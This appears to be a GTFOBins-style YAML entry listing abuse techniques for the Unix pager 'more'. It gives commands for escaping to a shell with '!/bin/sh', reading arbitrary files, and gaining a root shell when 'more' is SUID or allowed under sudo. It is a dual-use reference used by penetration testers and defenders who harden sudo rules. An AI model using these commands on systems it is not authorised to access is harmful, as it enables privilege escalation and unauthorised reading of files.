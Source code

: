 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  file-read:
    - code: more file_to_read
  suid-enabled:
    - code: ./more file_to_read
  sudo-enabled:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
---
```


